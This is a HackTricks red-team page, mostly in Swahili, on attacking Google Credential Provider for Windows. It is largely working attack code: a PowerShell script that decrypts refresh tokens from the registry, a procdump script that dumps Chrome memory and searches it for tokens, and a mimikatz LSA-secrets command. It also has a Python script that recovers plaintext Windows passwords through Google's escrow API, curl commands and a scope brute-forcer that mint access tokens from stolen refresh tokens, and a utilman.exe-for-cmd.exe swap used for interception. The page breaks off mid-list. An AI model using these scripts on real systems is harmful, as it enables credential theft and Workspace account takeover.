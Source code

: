# GWS - Workspace Sync Attacks (GCPW, GCDS, Directory Sync with AD & EntraID)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## GCPW - Google Credential Provider for Windows

Hii ni njia moja ya kuingia ambayo Google Workspaces inatoa ili watumiaji waweze kuingia kwenye kompyuta zao za Windows wakitumia **vithibitisho vyao vya Workspace**. Zaidi ya hayo, hii itahifadhi tokeni za kufikia Google Workspace katika sehemu kadhaa kwenye PC.

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCPW**, get information about the configuration and **even tokens**.
{% endhint %}

### GCPW - MitM

Wakati mtumiaji anapofikia PC ya Windows iliyosawazishwa na Google Workspace kupitia GCPW itahitaji kukamilisha fomu ya kawaida ya kuingia. Fomu hii ya kuingia itarudisha msimbo wa OAuth ambao PC itabadilisha kwa tokeni ya upya katika ombi kama: 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

New lines have been added to make it more readable.

{% hint style="info" %}
Ilikuwa inawezekana kufanya MitM kwa kusakinisha `Proxifier` kwenye PC, kubadilisha `utilman.exe` binary na `cmd.exe` na kutekeleza **vipengele vya upatikanaji** kwenye ukurasa wa kuingia wa Windows, ambayo itatekeleza **CMD** ambayo unaweza **kuanzisha na kuunda mipangilio ya Proxifier**.\
Usisahau **kuzuia trafiki ya QUICK UDP** katika `Proxifier` ili ipunguzwe kwa mawasiliano ya TCP na uweze kuiona.

Pia tengeneza katika "Serviced and other users" chaguo zote mbili na usakinishe cheti cha Burp CA katika Windows.
{% endhint %}

Zaidi ya hayo, kuongeza funguo `enable_verbose_logging = 1` na `log_file_path = C:\Public\gcpw.log` katika **`HKLM:\SOFTWARE\Google\GCPW`** inawezekana kufanya iweze kuhifadhi baadhi ya kumbukumbu.

### GCPW - Alama ya Kidole

Inawezekana kuangalia ikiwa GCPW imewekwa kwenye kifaa kwa kuangalia ikiwa mchakato ufuatao upo au ikiwa funguo za rejista zifuatazo zipo:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Katika **`HKCU:\SOFTWARE\Google\Accounts`** inawezekana kufikia barua pepe ya mtumiaji na **refresh token** iliyosimbwa ikiwa mtumiaji alijiandikisha hivi karibuni.

Katika **`HKLM:\SOFTWARE\Google\GCPW\Users`** inawezekana kupata **domains** ambazo zinaruhusiwa kuingia katika ufunguo `domains_allowed` na katika subkeys inawezekana kupata taarifa kuhusu mtumiaji kama barua pepe, picha, jina la mtumiaji, muda wa maisha ya token, token handle...

{% hint style="info" %}
Token handle ni token inayaanza na `eth.` na kutoka kwake inaweza kutolewa taarifa fulani kwa ombi kama:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Pia inawezekana kupata kipande cha token ya token ya ufikiaji kwa ombi kama hili:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Afaik haiwezekani kupata token ya kusasisha au token ya ufikiaji kutoka kwa token handle.
{% endhint %}

Zaidi ya hayo, faili **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** ni json inayoshikilia taarifa za mipangilio tofauti kama `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (ikiwa watumiaji kadhaa kutoka Workspace wanaweza kuingia kwenye kompyuta) na `validityPeriodDays` (idadi ya siku ambazo mtumiaji hatahitaji kujithibitisha tena moja kwa moja na Google).

### GCPW - Token za Kusasisha za Registry

Ndani ya registry **`HKCU:\SOFTWARE\Google\Accounts`** inaweza kuwa inawezekana kupata akaunti kadhaa zikiwa na **`refresh_token`** iliyofichwa ndani. Njia **`ProtectedData.Unprotect`** inaweza kuifungua kwa urahisi.

<details>

<summary>Pata <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> data na ufungue refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Mfano wa nje:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Kama ilivyoelezwa katika [**hii video**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), ikiwa huwezi kupata token katika rejista, inawezekana kubadilisha thamani (au kufuta) kutoka **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** na wakati mtumiaji atakapofikia kompyuta tena, atahitaji kuingia tena na **token itahifadhiwa katika rejista ya awali**.

### GCPW - Token za Kurefresh Disk

Faili **`%LocalAppData%\Google\Chrome\User Data\Local State`** inahifadhi ufunguo wa kufichua **`refresh_tokens`** zilizo ndani ya **profaili za Google Chrome** za mtumiaji kama:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Inawezekana kupata baadhi ya **C# code** inayofikia token hizi kwa njia yao ya kufichuliwa katika [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Zaidi ya hayo, usimbuaji unaweza kupatikana katika msimbo huu: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Inaweza kuonekana kuwa AESGCM inatumika, token iliyosimbwa inaanza na **toleo** (**`v10`** kwa wakati huu), kisha ina [**12B za nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), na kisha ina **cypher-text** yenye **mac ya mwisho ya 16B**.

### GCPW - Kutupa token kutoka kumbukumbu za michakato

Script ifuatayo inaweza kutumika kutupa kila **mchakato wa Chrome** kwa kutumia `procdump`, kutoa **nyuzi** na kisha **kutafuta** nyuzi zinazohusiana na **token za ufikiaji na kurefresh**. Ikiwa Chrome imeunganishwa na tovuti yoyote ya Google, baadhi ya **mchakato utaweka token za kurefresh na/au ufikiaji katika kumbukumbu!**

<details>

<summary>Tupa michakato ya Chrome na tafuta token</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Nilijaribu sawa na `gcpw_extension.exe` lakini haikupata token yoyote.

Kwa sababu fulani, **baadhi ya token za ufikiaji zilizovutwa hazitakuwa halali (ingawa baadhi zitakuwa)**. Nilijaribu skripti ifuatayo kuondoa herufi 1 kwa 1 ili kujaribu kupata token halali kutoka kwenye dump. Haikuniwezesha kupata halali, lakini inaweza nadhani:

<details>

<summary>Angalia token ya ufikiaji kwa kuondoa herufi 1 kwa 1</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Kurejesha nenosiri la wazi

Ili kutumia GCPW kurejesha nenosiri la wazi, inawezekana kutoa nenosiri lililofichwa kutoka **LSASS** kwa kutumia **mimikatz**:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Kisha tafuta siri kama `Chrome-GCPW-<sid>` kama ilivyo kwenye picha:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Kisha, kwa **token ya ufikiaji** yenye upeo `https://www.google.com/accounts/OAuthLogin` inawezekana kuomba funguo ya faragha ili kufichua nenosiri:

<details>

<summary>Script ya kupata nenosiri katika maandiko wazi ikitolewa token ya ufikiaji, nenosiri lililofichwa na kitambulisho cha rasilimali</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Inawezekana kupata vipengele muhimu vya hii katika msimbo wa chanzo wa Chromium:

* API domain: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API endpoint: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Kutengeneza alama za ufikiaji kutoka kwa alama za upya

Kwa kutumia alama ya upya inawezekana kutengeneza alama za ufikiaji kwa kutumia hiyo na kitambulisho cha mteja na siri ya mteja zilizoainishwa katika amri ifuatayo:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
Kumbuka kwamba hata ukiwa na token ya kusasisha, si rahisi kuomba scope yoyote kwa token ya ufikiaji kwani unaweza tu kuomba **scopes zinazoungwa mkono na programu ambapo unazalisha token ya ufikiaji**.

Pia, token ya kusasisha si halali katika kila programu.
{% endhint %}

Kwa default GCPW haitaweza kupata kama mtumiaji kwa kila scope ya OAuth inayowezekana, hivyo kutumia script ifuatayo tunaweza kupata scopes ambazo zinaweza kutumika na `refresh_token` kuzalisha `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Na hii ndiyo matokeo niliyopata wakati wa kuandika:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Zaidi ya hayo, kuangalia msimbo wa chanzo wa Chromium inawezekana [**kupata faili hii**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), ambayo ina **mipaka mingine** ambayo inaweza kudhaniwa kuwa **haionekani katika orodha iliyokuwa ikikandamizwa awali**. Kwa hivyo, mipaka hii ya ziada inaweza kudhaniwa:

<details>

<summary>Mipaka ya ziada</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Kumbuka kwamba ya kuvutia zaidi huenda ikawa:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Hata hivyo, nilijaribu kutumia wigo huu kupata gmail au orodha ya vikundi na haikufanya kazi, hivyo sijui ni faida gani bado ina.

**Pata token ya ufikiaji na wigo wote hao**:

<details>

<summary>Bash script ya kuunda token ya ufikiaji kutoka refresh_token na wigo wote</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
